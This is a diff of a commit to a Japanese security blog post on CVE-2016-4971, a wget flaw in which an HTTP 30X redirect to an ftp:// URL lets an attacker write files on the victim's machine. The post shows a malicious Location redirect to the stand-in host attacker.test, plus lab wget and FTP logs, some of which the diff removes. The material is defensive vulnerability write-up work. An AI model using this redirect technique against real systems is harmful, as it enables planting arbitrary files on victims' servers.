

Before and after one commit to KosukeShimofuji/KosukeShimofuji.github.io, a Jekyll site: the page built from _posts/2016-07-06-CVE-2016-4971-wget-arbitary-command-execution.markdown, in a window 1280 px wide and 1400 px high, scrolled down 3095 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; a script that is not in the unit is left out; comment, search, counter and statistics services are not loaded; after the commit the page ends 4167 px from its top, so only the background shows below that; some of the changed text lies outside the part shown; grey boxes are pictures that could not be loaded.

Commit message:
update 2016-07-06-CVE-2016-4971-wget-arbitary-command-execution.markdown

````diff
--- a/_config.yml
+++ b/_config.yml
@@ -9,7 +9,7 @@
 title: Kosuke Shimofuji's Blog
 email: kosuke.shimofuji@gmail.com
 description: > # this means to ignore newlines until "baseurl:"
-    Think about CyberSecurity
+    GMOペパボ株式会社でコンピュータセキュリティ関連の仕事をしています。
 permalink: /:year/:month/:day/:title/
 baseurl: "" # the subpath of your site, e.g. /blog
 url: "http://KosukeShimofuji.GITHUB.IO" # the base hostname & protocol for your site
--- a/_posts/2016-07-06-CVE-2016-4971-wget-arbitary-command-execution.markdown
+++ b/_posts/2016-07-06-CVE-2016-4971-wget-arbitary-command-execution.markdown
@@ -11,12 +11,6 @@
 
 ## 攻撃の詳細
 
-以下のようにwgetを用いて攻撃者の管理下にあるファイルを取りにいくと
-
-```
-wget http://attacker.test/hoge.txt
-```
-
 攻撃者は以下のような30X系のレスポンスを返すことで任意のファイルを被害者のサーバに作成することができる。
 
 ```
@@ -24,14 +18,25 @@
 Cache-Control: private
 Content-Type: text/html; charset=UTF-8
 Location: ftp://attacker.test/foo.txt
-Content-Length: 262
-Server: Apache
 ```
 
 ## 検証環境の構築
 
+ * 被害者マシンのディストロ情報
+
 ```
 kosuke@scapegoat ~ $ lsb_release -a
+No LSB modules are available.
+Distributor ID: Debian
+Description:    Debian GNU/Linux 8.5 (jessie)
+Release:        8.5
+Codename:       jessie
+```
+
+ * 攻撃者マシンのディストロ情報
+
+```
+kosuke@attacker ~ $ lsb_release -a
 No LSB modules are available.
 Distributor ID: Debian
 Description:    Debian GNU/Linux 8.5 (jessie)
@@ -156,55 +161,15 @@
 
 ```
 kosuke@attacker ~ $ wget http://attacker.test:8000 --server-response
---2016-07-06 16:40:45--  http://attacker.test:8000/
-attacker.test (attacker.test) をDNSに問いあわせています... 127.0.0.1
-attacker.test (attacker.test)|127.0.0.1|:8000 に接続しています... 接続しました。
-HTTP による接続要求を送信しました、応答を待っています...
   HTTP/1.0 301 Moved Permanently
   Server: SimpleHTTP/0.6 Python/3.5.1
   Date: Wed, 06 Jul 2016 07:40:45 GMT
   Location: ftp://anonymous@attacker.test:21/HACKING.txt
-場所: ftp://anonymous@attacker.test:21/HACKING.txt [続く]
---2016-07-06 16:40:45--  ftp://anonymous@attacker.test/HACKING.txt
-           => `HACKING.txt.1'
-attacker.test (attacker.test)|127.0.0.1|:21 に接続しています... 接続しました。
-anonymous としてログインしています...
-220 ProFTPD 1.3.5 Server (Debian) [::ffff:127.0.0.1]
---> USER anonymous
-
-331 Anonymous login ok, send your complete email address as your password
---> PASS Turtle Power!
-
-230 Anonymous access granted, restrictions apply
---> SYST
-
-215 UNIX Type: L8
---> PWD
-
-257 "/" is the current directory
---> TYPE I
-
-200 Type set to I
-==> CWD は必要ありません。
---> SIZE HACKING.txt
-
-213 8
---> PASV
-
-227 Entering Passive Mode (127,0,0,1,229,203).
---> RETR HACKING.txt
-
-150 Opening BINARY mode data connection for HACKING.txt (8 bytes)
-長さ: 8 (確証はありません)
-
-HACKING.txt.1           100%[=================================>]       8  --.-KB/s 時間 0s
-
-226 Transfer complete
-2016-07-06 16:40:45 (30.7 KB/s) - `HACKING.txt.1' へ保存終了 [8]
 ```
 
 ## パッチ情報
 
+ * http://git.savannah.gnu.org/cgit/wget.git/patch/?id=e996e322ffd42aaa051602da182d03178d0f13e1
  * https://bugzilla.redhat.com/show_bug.cgi?id=CVE-2016-4971
  * https://security-tracker.debian.org/tracker/CVE-2016-4971
 
````
